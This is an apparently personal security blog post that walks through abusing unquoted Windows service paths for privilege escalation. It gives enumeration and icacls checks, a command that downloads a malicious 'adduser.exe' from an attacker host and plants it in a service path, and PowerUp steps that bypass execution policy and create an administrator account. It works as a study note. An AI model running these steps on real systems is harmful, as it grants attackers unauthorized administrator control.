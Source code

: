```yaml
---
layout: post
title: Windows Unquoted Paths
titledate: 09/16/23
tags: ["infosec","offsec", "privesc", "powershell", "exploit", "dll", "powerup"]
---
```


#### unquoted binary path abuse

when windows encounters an unquoted path to a binary application it follows a specific order of execution

- C:\Program.exe
- C:\Program Files\My.exe
- C:\Program Files\My Program\My.exe
- C:\Program Files\My Program\My service\service.exe

looking at the example above, for the binary service.exe it trys to execute the first word encountered by appending .exe to it assuming that we meant to call that the executable

for the first few directories we encounter that are Windows managed by default usually locked down pretty tight with permissions we can not do much (i.e Program.exe will likely not be a viable exploit option for us), however, as we continue down the path to directories and software that the user has created we will have more options. In the case above the My Service directory can be exploited by adding the My binary to the My Program files

if we want to enumerate running and stopped processes

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName

now we can enter a command to get us all binaries with their respective paths that are located outside the Windows directory

### C:> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

as always when working with services, to determine if our current user has the permissions required to execute the service, we begin by trying to start the service

    PS > Start-Service myservice
    PS > Stop-Service myservice

now we can uses icalcs to check the permissions of the service binary directories

    PS > icacls "C:\Program Files\Enterprise Apps" (...\Current Version\nyservice.exe)

in this example we have write permissions available to the current user for the Enterprise Apps directory

so we can copy our malicious executable over - and lable it Current.exe as the next path it is looking for is Curent Version

    PS > iwr -uri http://192.168.1.1/adduser.exe -Outfile Current.exe
    PS > copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'

now start the service to execute our code

    PS > Start-Service myservice

we may get a powershell error , but that does not necessarily mean our code did not execute before the script errored out

#### PowerUp automation

we can achieve similar results with the PowerUp powershell script

    PS > iwr http://192.168.1.1/PowerUp.ps1 -Outfile PowerUp.ps1

we copy the script over and allow the execution bypass

    PS > powershell -ep bypass

start the script

    PS > . .\PowerUp.ps1

execute the unquoted service option

    PS > Get-UnquotedService

and then check if we have the abuse function and point it to the path binary we are creating, by default this creates the john admin user, however we can modify to change the password of a current admin acount if we wish or any other sys level command

    PS > Write-ServiceBinary -Name 'myservice' -Path "C:\Program Files\Enterprise Apps\Current.exe"

to execute our code we need to restart the service

    PS > Restart-Service myservice

and again even if the script errors we may have achieved our code execution